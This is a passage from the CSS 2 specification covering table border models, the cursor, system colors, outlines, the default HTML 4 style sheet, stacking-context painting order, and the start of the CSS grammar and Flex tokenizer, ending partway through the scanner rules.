> **Example:** The table in the figure below could be the result of a style sheet like this:
>
> ```css
> table      { border: outset 10pt;
>              border-collapse: separate;
>              border-spacing: 15pt }
> td         { border: inset 5pt }
> td.special { border: inset 10pt }  /* The top-left cell */
> ```
>
> 
>
> A table with `border-spacing` set to a length value. Note that each cell has its own border, and the table has a separate border as well.

###### 17.6.1.1. Borders and Backgrounds around empty cells: the `empty-cells` property {#css2:empty-cells}

| Field | Value |
| --- | --- |
| Name: | **empty-cells** |
| [Value:](#css-values-4:value-defs) | show \| hide \| inherit |
| [Initial:](#css-cascade-6:initial-values) | show |
| [Applies to:](#css-cascade-5:applies-to) | `table-cell` elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

In the separated borders model, this property controls the rendering of borders and backgrounds around cells that have no visible content. Empty cells and cells with the `visibility` property set to `hidden` are considered to have no visible content. Cells are empty unless they contain one or more of the following:

- floating content (including empty elements),
- in-flow content (including empty elements) other than white space that has been collapsed away by the `white-space` property handling.

When this property has the value **show**, borders and backgrounds are drawn around/behind empty cells (like normal cells).

A value of **hide** means that no borders or backgrounds are drawn around/behind empty cells (see point 6 in [17.5.1](#css2:table-layers)). Furthermore, if all the cells in a row have a value of `hide` and have no visible content, then the row has zero height and there is vertical border-spacing on only one side of the row.

> **Example:** The following rule causes borders and backgrounds to be drawn around all cells:
>
> ```css
> table { empty-cells: show }
> ```

##### 17.6.2. The collapsing border model {#css2:collapsing-borders}

In the collapsing border model, it is possible to specify borders that surround all or part of a cell, row, row group, column, and column group. Borders for HTML’s "rules" attribute can be specified this way.

Borders are centered on the grid lines between the cells. User agents must find a consistent rule for rounding off in the case of an odd number of discrete units (screen pixels, printer dots).

The diagram below shows how the width of the table, the widths of the borders, the padding, and the cell width interact. Their relation is given by the following equation, which holds for every row of the table:

> *row-width* = (0.5 * *border-width*0) \+ *padding-left*1 + *width*1 + *padding-right*1 + *border-width*1 + *padding-left*2 +...+ *padding-right**n* + (0.5 * *border-width**n*)

Here *n* is the number of cells in the row, *padding-left**i* and *padding-right**i* refer to the left (resp., right) padding of cell *i*, and *border-width**i* refers to the border between cells *i* and *i* + 1.

UAs must compute an initial left and right border width for the table by examining the first and last cells in the first row of the table. The left border width of the table is half of the first cell’s collapsed left border, and the right border width of the table is half of the last cell’s collapsed right border. If subsequent rows have larger collapsed left and right borders, then any excess spills into the margin area of the table.

The top border width of the table is computed by examining all cells who collapse their top borders with the top border of the table. The top border width of the table is equal to half of the maximum collapsed top border. The bottom border width is computed by examining all cells whose bottom borders collapse with the bottom of the table. The bottom border width is equal to half of the maximum collapsed bottom border.

Any borders that spill into the margin are taken into account when determining if the table overflows some ancestor (see `overflow`).


Schema showing the widths of cells and borders and the padding of cells.

Note that in this model, the width of the table includes half the table border. Also, in this model, a table does not have padding (but does have margins).

CSS 2 does not define where the edge of a background on a table element lies.

###### 17.6.2.1. Border conflict resolution {#css2:border-conflict-resolution}

In the collapsing border model, borders at every edge of every cell may be specified by border properties on a variety of elements that meet at that edge (cells, rows, row groups, columns, column groups, and the table itself), and these borders may vary in width, style, and color. The rule of thumb is that at each edge the most "eye catching" border style is chosen, except that any occurrence of the style `hidden` unconditionally turns the border off.

The following rules determine which border style "wins" in case of a conflict:

1. Borders with the `border-style` of `hidden` take precedence over all other conflicting borders. Any border with this value suppresses all borders at this location.
2. Borders with a style of `none` have the lowest priority. Only if the border properties of all the elements meeting at this edge are `none` will the border be omitted (but note that `none` is the default value for the border style.)
3. If none of the styles are `hidden` and at least one of them is not `none`, then narrow borders are discarded in favor of wider ones. If several have the same `border-width` then styles are preferred in this order: `double`, `solid`, `dashed`, `dotted`, `ridge`, `outset`, `groove`, and the lowest: `inset`.
4. If border styles differ only in color, then a style set on a cell wins over one on a row, which wins over a row group, column, column group and, lastly, table. When two elements of the same type conflict, then the one further to the left (if the table’s `direction` is `ltr`; right, if it is `rtl`) and further to the top wins.

> **Example:** The following example illustrates the application of these precedence rules. This style sheet:
>
> ```css
> table          { border-collapse: collapse;
>                  border: 5px solid yellow; }
> *#col1         { border: 3px solid black; }
> td             { border: 1px solid red; padding: 1em; }
> td.cell5       { border: 5px dashed blue; }
> td.cell6       { border: 5px solid green; }
> ```
>
> with this HTML source:
>
> ```html
> <TABLE>
> <COL id="col1"><COL id="col2"><COL id="col3">
> <TR id="row1">
>     <TD> 1
>     <TD> 2
>     <TD> 3
> </TR>
> <TR id="row2">
>     <TD> 4
>     <TD class="cell5"> 5
>     <TD class="cell6"> 6
> </TR>
> <TR id="row3">
>     <TD> 7
>     <TD> 8
>     <TD> 9
> </TR>
> <TR id="row4">
>     <TD> 10
>     <TD> 11
>     <TD> 12
> </TR>
> <TR id="row5">
>     <TD> 13
>     <TD> 14
>     <TD> 15
> </TR>
> </TABLE>
> ```
>
> would produce something like this:
>
> 
>
> An example of a table with collapsed borders.

> **Example:** Here is an example of hidden collapsing borders:
>
> 
>
> Table with two omitted internal borders.
>
> HTML source:
>
> ```html
> <TABLE style="border-collapse: collapse; border: solid;">
> <TR><TD style="border-right: hidden; border-bottom: hidden">foo</TD>
>     <TD style="border: solid">bar</TD></TR>
> <TR><TD style="border: none">foo</TD>
>     <TD style="border: solid">bar</TD></TR>
> </TABLE>
> ```

##### 17.6.3. Border styles {#css2:table-border-styles}

Some of the values of the `<border-style>` have different meanings in tables than for other elements. In the list below they are marked with an asterisk.

**`none`**

: `No border.`

*****`hidden`****

: Same as `none`, but in the [collapsing border model](#css2:collapsing-borders), also inhibits any other border (see the section on [border conflicts](#css2:border-conflict-resolution)).

****`dotted`****

: The border is a series of dots.

****`dashed`****

: The border is a series of short line segments.

****`solid`****

: The border is a single line segment.

****`double`****

: The border is two solid lines. The sum of the two lines and the space between them equals the value of `border-width`.

****`groove`****

: The border looks as though it were carved into the canvas.

****`ridge`****

: The opposite of `groove`: the border looks as though it were coming out of the canvas.

*****`inset`****

: In the separated borders model, the border makes the entire box look as though it were embedded in the canvas. In the [collapsing border model](#css2:collapsing-borders), drawn the same as `ridge`.

*****`outset`****

: In the separated borders model, the border makes the entire box look as though it were coming out of the canvas. In the [collapsing border model](#css2:collapsing-borders), drawn the same as `groove`.

### 18. User interface {#css2:ui}

#### 18.1. Cursors: the `cursor` property {#css2:cursor-props}

| Field | Value |
| --- | --- |
| Name: | **cursor** |
| [Value:](#css-values-4:value-defs) | [ [`<uri>` ,]* [ auto \| crosshair \| default \| pointer \| move \| e-resize \| ne-resize \| nw-resize \| n-resize \| se-resize \| sw-resize \| s-resize \| w-resize \| text \| wait \| help \| progress ] ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified, except with any relative URLs converted to absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual, interactive |

This property specifies the type of cursor to be displayed for the pointing device. Values have the following meanings:

****auto****

: The UA determines the cursor to display based on the current context.

****crosshair****

: A simple crosshair (e.g., short line segments resembling a "+" sign).

****default****

: The platform-dependent default cursor. Often rendered as an arrow.

****pointer****

: The cursor is a pointer that indicates a link.

****move****

: Indicates something is to be moved.

****e-resize**, **ne-resize**, **nw-resize**, **n-resize**, **se-resize**, **sw-resize**, **s-resize**, **w-resize****

: Indicate that some edge is to be moved. For example, the `se-resize` cursor is used when the movement starts from the south-east corner of the box.

****text****

: Indicates text that may be selected. Often rendered as an I-beam.

****wait****

: Indicates that the program is busy and the user should wait. Often rendered as a watch or hourglass.

****progress****

: A progress indicator. The program is performing some processing, but is different from `wait` in that the user may still interact with the program. Often rendered as a spinning beach ball, or an arrow with a watch or hourglass.

****help****

: Help is available for the object under the cursor. Often rendered as a question mark or a balloon.

**`<uri>`**

: The user agent retrieves the cursor from the resource designated by the URI. If the user agent cannot handle the first cursor of a list of cursors, it should attempt to handle the second, etc. If the user agent cannot handle any user-defined cursor, it must use the generic cursor at the end of the list. Intrinsic sizes for cursors are calculated as for [background images,](#css2:background-properties) except that a UA-defined rectangle is used in place of the rectangle that establishes the coordinate system for the `background-image` property. This UA-defined rectangle should be based on the size of a typical cursor on the UA’s operating system. If the resulting cursor size does not fit within this rectangle, the UA may proportionally scale the resulting cursor down until it fits within the rectangle.

> **Example:** ```css
> :link,:visited { cursor: url(example.svg#linkcursor), url(hyper.cur), pointer }
> ```
>
> This example sets the cursor on all hyperlinks (whether visited or not) to an external [SVG cursor](https://www.w3.org/TR/SVG/interact.html#CursorElement). User agents that do not support SVG cursors would simply skip to the next value and attempt to use the "hyper.cur" cursor. If that cursor format was also not supported, the UA would skip to the next value and simply render the `pointer` cursor.

#### 18.2. System Colors {#css2:system-colors}

> **Note:** ***Note.** The System Colors are deprecated in the CSS3 Color Module [CSS3COLOR].*

In addition to being able to assign pre-defined [color values](#css2:color-units) to text, backgrounds, etc., CSS2 (1998) introduced a set of named color values that allows authors to specify colors in a manner that integrates them into the operating system’s graphic environment.

For systems that do not have a corresponding value, the specified value should be mapped to the nearest system value, or to a default color.

The following lists additional values for color-related CSS properties and their general meaning. Any color property (e.g., `color` or `background-color`) can take one of the following names. Although these are case-insensitive, it is recommended that the mixed capitalization shown below be used, to make the names more legible.

**ActiveBorder**

: Active window border.

**ActiveCaption**

: Active window caption.

**AppWorkspace**

: Background color of multiple document interface.

**Background**

: Desktop background.

**ButtonFace**

: Face color for three-dimensional display elements.

**ButtonHighlight**

: Highlight color for three-dimensional display elements (for edges facing away from the light source).

**ButtonShadow**

: Shadow color for three-dimensional display elements.

**ButtonText**

: Text on push buttons.

**CaptionText**

: Text in caption, size box, and scrollbar arrow box.

**GrayText**

: Grayed (disabled) text. This color is set to #000 if the current display driver does not support a solid gray color.

**Highlight**

: Item(s) selected in a control.

**HighlightText**

: Text of item(s) selected in a control.

**InactiveBorder**

: Inactive window border.

**InactiveCaption**

: Inactive window caption.

**InactiveCaptionText**

: Color of text in an inactive caption.

**InfoBackground**

: Background color for tooltip controls.

**InfoText**

: Text color for tooltip controls.

**Menu**

: Menu background.

**MenuText**

: Text in menus.

**Scrollbar**

: Scroll bar gray area.

**ThreeDDarkShadow**

: Dark shadow for three-dimensional display elements.

**ThreeDFace**

: Face color for three-dimensional display elements.

**ThreeDHighlight**

: Highlight color for three-dimensional display elements.

**ThreeDLightShadow**

: Light color for three-dimensional display elements (for edges facing the light source).

**ThreeDShadow**

: Dark shadow for three-dimensional display elements.

**Window**

: Window background.

**WindowFrame**

: Window frame.

**WindowText**

: Text in windows.

> **Example:** For example, to set the foreground and background colors of a paragraph to the same foreground and background colors of the user’s window, write the following:
>
> ```css
> p { color: WindowText; background-color: Window }
> ```

#### 18.3. User preferences for fonts {#css2:system-fonts①}

As for colors, authors may specify fonts in a way that makes use of a user’s system resources. Please consult the `font` property for details.

#### 18.4. Dynamic outlines: the `outline` property {#css2:dynamic-outlines}

At times, style sheet authors may want to create outlines around visual objects such as buttons, active form fields, image maps, etc., to make them stand out. CSS 2 outlines differ from [borders](#css2:border-properties) in the following ways:

1. Outlines do not take up space.
2. Outlines may be non-rectangular.

The outline properties control the style of these dynamic outlines.

| Field | Value |
| --- | --- |
| Name: | **outline** |
| [Value:](#css-values-4:value-defs) | [ `<'outline-color'>` \|\| `<'outline-style'>` \|\| `<'outline-width'>` ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual, interactive |

| Field | Value |
| --- | --- |
| Name: | **outline-width** |
| [Value:](#css-values-4:value-defs) | `<border-width>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute length; `0` if the outline style is `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual, interactive |

| Field | Value |
| --- | --- |
| Name: | **outline-style** |
| [Value:](#css-values-4:value-defs) | `<border-style>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual, interactive |

| Field | Value |
| --- | --- |
| Name: | **outline-color** |
| [Value:](#css-values-4:value-defs) | `<color>` \| invert \| inherit |
| [Initial:](#css-cascade-6:initial-values) | invert |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual, interactive |

The outline created with the outline properties is drawn "over" a box, i.e., the outline is always on top, and does not influence the position or size of the box, or of any other boxes. Therefore, displaying or suppressing outlines does not cause reflow or overflow.

The outline may be drawn starting just outside the border edge.

Outlines may be non-rectangular. For example, if the element is broken across several lines, the outline is the minimum outline that encloses all the element’s boxes. In contrast to [borders](#css2:border-properties), the outline is not open at the line box’s end or start, but is always fully connected if possible.

The `outline-width` property accepts the same values as `border-width`.

The `outline-style` property accepts the same values as `border-style`, except that `hidden` is not a legal outline style.

The `outline-color` accepts all colors, as well as the keyword **invert**. `invert` is expected to perform a color inversion on the pixels on the screen. This is a common trick to ensure the focus border is visible, regardless of color background.

Conformant UAs may ignore the `invert` value on platforms that do not support color inversion of the pixels on the screen. If the UA does not support the `invert` value then the initial value of the `outline-color` property is the value of the `color` property, similar to the initial value of the `border-top-color` property.

The `outline` property is a shorthand property, and sets all three of `outline-style`, `outline-width`, and `outline-color`.

> **Note:** ***Note.** The outline is the same on all sides. In contrast to borders, there is no `outline-top` or `outline-left` property.*

This specification does not define how multiple overlapping outlines are drawn, or how outlines are drawn for boxes that are partially obscured behind other elements.

> **Note:** ***Note.** Since the outline does not affect formatting (i.e., no space is left for it in the box model), it may well overlap other elements on the page.*

> **Example:** Here’s an example of drawing a thick outline around a BUTTON element:
>
> ```css
> button { outline : thick solid}
> ```
>
> Scripts may be used to dynamically change the width of the outline, without provoking a reflow.

##### 18.4.1. Outlines and the focus {#css2:outline-focus}

Graphical user interfaces may use outlines around elements to tell the user which element on the page has the **focus**. These outlines are in addition to any borders, and switching outlines on and off should not cause the document to reflow. The focus is the subject of user interaction in a document (e.g., for entering text, selecting a button, etc.). User agents supporting the interactive media group must keep track of where the focus lies and must also represent the focus. This may be done by using dynamic outlines in conjunction with the :focus pseudo-class.

> **Example:** For example, to draw a thick black line around an element when it has the focus, and a thick red line when it is active, the following rules can be used:
>
> ```css
> :focus  { outline: thick solid black }
> :active { outline: thick solid red }
> ```

#### 18.5. Magnification {#css2:magnification}

The CSS working group considers that the magnification of a document or portions of a document should not be specified through style sheets. User agents may support such magnification in different ways (e.g., larger images, louder sounds, etc.)

When magnifying a page, UAs should preserve the relationships between positioned elements. For example, a comic strip may be composed of images with overlaid text elements. When magnifying this page, a user agent should keep the text within the comic strip balloon.

### Appendix A: Aural style sheets {#css2:aural}

Earlier revisions of CSS2 defined an `aural` media type and various properties that applied to it. [CSS-SPEECH-1] represents more recent work for the same use-cases.

### Appendix D: Default style sheet for HTML 4 {#css2:html-stylesheet}

*This appendix is informative, not normative.*

This style sheet describes the typical formatting of all HTML 4 ([HTML401]) elements based on extensive research into current UA practice. Developers are encouraged to use it as a default style sheet in their implementations.

The full presentation of some HTML elements cannot be expressed in CSS 2, including replaced elements ("img", "object"), scripting elements ("script", "applet"), form control elements, and frame elements.

For other elements, the legacy presentation can be described in CSS but the solution removes the element. For example, the FONT element can be replaced by attaching CSS declarations to other elements (e.g., DIV). Likewise, legacy presentation of presentational attributes (e.g., the "border" attribute on TABLE) can be described in CSS, but the markup in the source document must be changed.

```css
html, address,
blockquote,
body, dd, div,
dl, dt, fieldset, form,
frame, frameset,
h1, h2, h3, h4,
h5, h6, noframes,
ol, p, ul, center,
dir, hr, menu, pre   { display: block; unicode-bidi: embed }
li              { display: list-item }
head            { display: none }
table           { display: table }
tr              { display: table-row }
thead           { display: table-header-group }
tbody           { display: table-row-group }
tfoot           { display: table-footer-group }
col             { display: table-column }
colgroup        { display: table-column-group }
td, th          { display: table-cell }
caption         { display: table-caption }
th              { font-weight: bolder; text-align: center }
caption         { text-align: center }
body            { margin: 8px }
h1              { font-size: 2em; margin: .67em 0 }
h2              { font-size: 1.5em; margin: .75em 0 }
h3              { font-size: 1.17em; margin: .83em 0 }
h4, p,
blockquote, ul,
fieldset, form,
ol, dl, dir,
menu            { margin: 1.12em 0 }
h5              { font-size: .83em; margin: 1.5em 0 }
h6              { font-size: .75em; margin: 1.67em 0 }
h1, h2, h3, h4,
h5, h6, b,
strong          { font-weight: bolder }
blockquote      { margin-left: 40px; margin-right: 40px }
i, cite, em,
var, address    { font-style: italic }
pre, tt, code,
kbd, samp       { font-family: monospace }
pre             { white-space: pre }
button, textarea,
input, select   { display: inline-block }
big             { font-size: 1.17em }
small, sub, sup { font-size: .83em }
sub             { vertical-align: sub }
sup             { vertical-align: super }
table           { border-spacing: 2px; }
thead, tbody,
tfoot           { vertical-align: middle }
td, th, tr      { vertical-align: inherit }
s, strike, del  { text-decoration: line-through }
hr              { border: 1px inset }
ol, ul, dir,
menu, dd        { margin-left: 40px }
ol              { list-style-type: decimal }
ol ul, ul ol,
ul ul, ol ol    { margin-top: 0; margin-bottom: 0 }
u, ins          { text-decoration: underline }
br:before       { content: "\A"; white-space: pre-line }
center          { text-align: center }
:link, :visited { text-decoration: underline }
:focus          { outline: thin dotted invert }

/* Begin bidirectionality settings (do not change) */
BDO[DIR="ltr"]  { direction: ltr; unicode-bidi: bidi-override }
BDO[DIR="rtl"]  { direction: rtl; unicode-bidi: bidi-override }

*[DIR="ltr"]    { direction: ltr; unicode-bidi: embed }
*[DIR="rtl"]    { direction: rtl; unicode-bidi: embed }

@media print {
  h1            { page-break-before: always }
  h1, h2, h3,
  h4, h5, h6    { page-break-after: avoid }
  ul, ol, dl    { page-break-before: avoid }
}
```

### Appendix E: Elaborate description of Stacking Contexts {#css2:elaborate-stacking-contexts}

This chapter defines the CSS 2 painting order in more detail than described in the rest of the specification.

#### Definitions {#css2:stacking-defs}

**Tree Order**

: Preorder depth-first traversal of the *rendering* tree, in logical (not visual) order for bidirectional content, after taking into account properties that move boxes around.

**Element**

: In this description, "element" refers to actual elements, pseudo-elements, and anonymous boxes. Pseudo-elements and anonymous boxes are treated as descendants in the appropriate places. For example, an outside list marker comes before an adjoining `:before` box in the line box, which comes before the content of the box, and so forth.

#### Painting order {#css2:painting-order}

The bottom of the stack is the furthest from the user, the top of the stack is the nearest to the user:

```
       |	   |	     |	  |
       |		|    |	  |	⇦ ☻
       |		|	  |	user
z-index:  canvas  -1	0    1	  2
```

The stacking context background and most negative positioned stacking contexts are at the bottom of the stack, while the most positive positioned stacking contexts are at the top of the stack.

The canvas is transparent if contained within another, and given a UA-defined color if it is not. It is infinite in extent and contains the root element. Initially, the viewport is anchored with its top left corner at the canvas origin.

The painting order for the descendants of an element generating a stacking context (see the `z-index` property) is:

1. If the element is a root element:

  1. background color of element over the entire canvas.
  2. background image of element, over the entire canvas, anchored at the origin that would be used if it was painted for the root element.
2. If the element is a block, list-item, or other block equivalent:

  1. background color of element unless it is the root element.
  2. background image of element unless it is the root element.
  3. border of element.

   Otherwise, if the element is a block level table:

  1. table backgrounds (color then image) unless it is the root element.
  2. column group backgrounds (color then image).
  3. column backgrounds (color then image).
  4. row group backgrounds (color then image).
  5. row backgrounds (color then image).
  6. cell backgrounds (color then image).
  7. all table borders (in tree order for separated borders).
3. Stacking contexts formed by positioned descendants with negative z-indices (excluding 0) in z-index order (most negative first) then tree order.
4. For all its in-flow, non-positioned, block-level descendants in tree order: If the element is a block, list-item, or other block equivalent:

  1. background color of element.
  2. background image of element.
  3. border of element.

   Otherwise, the element is a table:

  1. table backgrounds (color then image).
  2. column group backgrounds (color then image).
  3. column backgrounds (color then image).
  4. row group backgrounds (color then image).
  5. row backgrounds (color then image).
  6. cell backgrounds (color then image).
  7. all table borders (in tree order for separated borders).
5. All non-positioned floating descendants, in tree order. For each one of these, treat the element as if it created a new stacking context, but any positioned descendants and descendants which actually create a new stacking context should be considered part of the parent stacking context, not this new one.
6. If the element is an inline element that generates a stacking context, then:

  1. For each line box that the element is in:

    1. Jump to [7.2.1](#css2:each-box) for the box(es) of the element in that line box (in tree order).
7. Otherwise: first for the element, then for all its in-flow, non-positioned, block-level descendants in tree order:

  1. If the element is a block-level replaced element, then: the replaced content, atomically.
  2. Otherwise, for each line box of that element:

    1. For each box that is a child of that element, in that line box, in tree order:

      1. background color of element.
      2. background image of element.
      3. border of element.
      4. For inline elements:

        1. For all the element’s in-flow, non-positioned, inline-level children that are in this line box, and all runs of text inside the element that is on this line box, in tree order:

          1. If this is a run of text, then:

            1. any underlining affecting the text of the element, in tree order of the elements applying the underlining (such that the deepest element’s underlining, if any, is painted topmost and the root element’s underlining, if any, is drawn bottommost).
            2. any overlining affecting the text of the element, in tree order of the elements applying the overlining (such that the deepest element’s overlining, if any, is painted topmost and the root element’s overlining, if any, is drawn bottommost).
            3. the text.
            4. any line-through affecting the text of the element, in tree order of the elements applying the line-through (such that the deepest element’s line-through, if any, is painted topmost and the root element’s line-through, if any, is drawn bottommost).
          2. Otherwise, jump to [7.2.1](#css2:each-box) for that element.

         For inline-block and inline-table elements:

        1. For each one of these, treat the element as if it created a new stacking context, but any positioned descendants and descendants which actually create a new stacking context should be considered part of the parent stacking context, not this new one.

         For inline-level replaced elements:

        1. the replaced content, atomically.

       > **Note:** Some of the boxes may have been generated by line splitting or the Unicode bidirectional algorithm.
    2. Optionally, the outline of the element (see [10 below](#css2:outlines)).
  3. Optionally, if the element is block-level, the outline of the element (see [10 below](#css2:outlines)).
8. All positioned descendants with 'z-index: auto' or 'z-index: 0', in tree order. For those with 'z-index: auto', treat the element as if it created a new stacking context, but any positioned descendants and descendants which actually create a new stacking context should be considered part of the parent stacking context, not this new one. For those with 'z-index: 0', treat the stacking context generated atomically.
9. Stacking contexts formed by positioned descendants with z-indices greater than or equal to 1 in z-index order (smallest first) then tree order.
10. Finally, implementations that do not draw outlines in steps above must draw outlines from this stacking context at this stage. (It is recommended to draw outlines in this step and not in the steps above.)

#### Notes {#css2:stacking-notes}

The background of the root element is only painted once, over the whole canvas.

While the backgrounds of bidirectional inlines are painted in tree order, they are positioned in visual order. Since the positioning of inline backgrounds is unspecified in CSS 2, the exact result of these two requirements is UA-defined. CSS3 may define this in more detail.

### Appendix G: Grammar of CSS 2 {#css2:app-grammar}

This appendix is non-normative.

The grammar below defines the syntax of CSS 2. It is in some sense, however, a superset of CSS 2 as this specification imposes additional semantic constraints not expressed in this grammar. A conforming UA must also adhere to the  [forward-compatible parsing rules](#css2:syntax), the selectors notation, the [property and value notation](#css2:property-defs), and the unit notation. However, not all syntactically correct CSS can take effect, since the document language may impose restrictions that are not in CSS, e.g., HTML imposes restrictions on the possible values of the "class" attribute.

#### Grammar {#css2:grammar}

The grammar below is LALR(1) (but note that most UA’s should not use it directly, since it does not express the [parsing conventions](#css2:parsing-errors), only the CSS 2 syntax). The format of the productions is optimized for human consumption and some shorthand notation beyond Yacc (see [YACC]) is used:

- *****: 0 or more
- **+**: 1 or more
- **?**: 0 or 1
- **|**: separates alternatives
- **[ ]**: grouping

The productions are:

```
stylesheet
  : [ CHARSET_SYM STRING ';' ]?
    [S|CDO|CDC]* [ import [ CDO S* | CDC S* ]* ]*
    [ [ ruleset | media | page ] [ CDO S* | CDC S* ]* ]*
  ;
import
  : IMPORT_SYM S*
    [STRING|URI] S* media_list? ';' S*
  ;
media
  : MEDIA_SYM S* media_list '{' S* ruleset* '}' S*
  ;
media_list
  : medium [ COMMA S* medium]*
  ;
medium
  : IDENT S*
  ;
page
  : PAGE_SYM S* pseudo_page?
    '{' S* declaration? [ ';' S* declaration? ]* '}' S*
  ;
pseudo_page
  : ':' IDENT S*
  ;
operator
  : '/' S* | ',' S*
  ;
combinator
  : '+' S*
  | '>' S*
  ;
unary_operator
  : '-' | '+'
  ;
property
  : IDENT S*
  ;
ruleset
  : selector [ ',' S* selector ]*
    '{' S* declaration? [ ';' S* declaration? ]* '}' S*
  ;
selector
  : simple_selector [ combinator selector | S+ [ combinator? selector ]? ]?
  ;
simple_selector
  : element_name [ HASH | class | attrib | pseudo ]*
  | [ HASH | class | attrib | pseudo ]+
  ;
class
  : '.' IDENT
  ;
element_name
  : IDENT | '*'
  ;
attrib
  : '[' S* IDENT S* [ [ '=' | INCLUDES | DASHMATCH ] S*
    [ IDENT | STRING ] S* ]? ']'
  ;
pseudo
  : ':' [ IDENT | FUNCTION S* [IDENT S*]? ')' ]
  ;
declaration
  : property ':' S* expr prio?
  ;
prio
  : IMPORTANT_SYM S*
  ;
expr
  : term [ operator? term ]*
  ;
term
  : unary_operator?
    [ NUMBER S* | PERCENTAGE S* | LENGTH S* | EMS S* | EXS S* | ANGLE S* |
      TIME S* | FREQ S* ]
  | STRING S* | IDENT S* | URI S* | hexcolor | function
  ;
function
  : FUNCTION S* expr ')' S*
  ;
/*
 * There is a constraint on the color that it must
 * have either 3 or 6 hex-digits (i.e., [0-9a-fA-F])
 * after the "#"; e.g., "#000" is OK, but "#abcd" is not.
 */
hexcolor
  : HASH S*
  ;
```

#### Lexical scanner {#css2:scanner}

The following is the **tokenizer**, written in Flex (see [FLEX]) notation. The tokenizer is case-insensitive.

The "\377" represents the highest character number that current versions of Flex can deal with (decimal 255). It should be read as "\4177777" (decimal 1114111), which is the highest possible code point in [UNICODE]/[ISO10646].

```
%option case-insensitive

h		[0-9a-f]
nonascii	[\240-\377]
unicode		\\{h}{1,6}(\r\n|[ \t\r\n\f])?
escape		{unicode}|\\[^\r\n\f0-9a-f]
nmstart		[_a-z]|{nonascii}|{escape}
nmchar		[_a-z0-9-]|{nonascii}|{escape}
string1		\"([^\n\r\f\\"]|\\{nl}|{escape})*\"
string2		\'([^\n\r\f\\']|\\{nl}|{escape})*\'
badstring1      \"([^\n\r\f\\"]|\\{nl}|{escape})*\\?
badstring2      \'([^\n\r\f\\']|\\{nl}|{escape})*\\?
badcomment1     \/\*[^*]*\*+([^/*][^*]*\*+)*
badcomment2     \/\*[^*]*(\*+[^/*][^*]*)*
baduri1         url\({w}([!#$%&*-\[\]-~]|{nonascii}|{escape})*{w}
baduri2         url\({w}{string}{w}
baduri3         url\({w}{badstring}
comment		\/\*[^*]*\*+([^/*][^*]*\*+)*\/
ident		-?{nmstart}{nmchar}*
name		{nmchar}+
num		[0-9]+|[0-9]*"."[0-9]+
string		{string1}|{string2}
badstring       {badstring1}|{badstring2}
badcomment      {badcomment1}|{badcomment2}
baduri          {baduri1}|{baduri2}|{baduri3}
url		([!#$%&*-~]|{nonascii}|{escape})*
s		[ \t\r\n\f]+
w		{s}?
nl		\n|\r\n|\r|\f

A		a|\\0{0,4}(41|61)(\r\n|[ \t\r\n\f])?
C		c|\\0{0,4}(43|63)(\r\n|[ \t\r\n\f])?
D		d|\\0{0,4}(44|64)(\r\n|[ \t\r\n\f])?
E		e|\\0{0,4}(45|65)(\r\n|[ \t\r\n\f])?
G		g|\\0{0,4}(47|67)(\r\n|[ \t\r\n\f])?|\\g
H		h|\\0{0,4}(48|68)(\r\n|[ \t\r\n\f])?|\\h
I		i|\\0{0,4}(49|69)(\r\n|[ \t\r\n\f])?|\\i
K		k|\\0{0,4}(4b|6b)(\r\n|[ \t\r\n\f])?|\\k
L               l|\\0{0,4}(4c|6c)(\r\n|[ \t\r\n\f])?|\\l
M		m|\\0{0,4}(4d|6d)(\r\n|[ \t\r\n\f])?|\\m
N		n|\\0{0,4}(4e|6e)(\r\n|[ \t\r\n\f])?|\\n
O		o|\\0{0,4}(4f|6f)(\r\n|[ \t\r\n\f])?|\\o
P		p|\\0{0,4}(50|70)(\r\n|[ \t\r\n\f])?|\\p
R		r|\\0{0,4}(52|72)(\r\n|[ \t\r\n\f])?|\\r
S		s|\\0{0,4}(53|73)(\r\n|[ \t\r\n\f])?|\\s
T		t|\\0{0,4}(54|74)(\r\n|[ \t\r\n\f])?|\\t
U               u|\\0{0,4}(55|75)(\r\n|[ \t\r\n\f])?|\\u
X		x|\\0{0,4}(58|78)(\r\n|[ \t\r\n\f])?|\\x
Z		z|\\0{0,4}(5a|7a)(\r\n|[ \t\r\n\f])?|\\z

%%

{s}			{return S;}

\/\*[^*]*\*+([^/*][^*]*\*+)*\/		/* ignore comments */
{badcomment}                         /* unclosed comment at EOF */

"<!--"		{return CDO;}
"-->"			{return CDC;}
"~="			{return INCLUDES;}
"|="			{return DASHMATCH;}

{string}		{return STRING;}
{badstring}             {return BAD_STRING;}

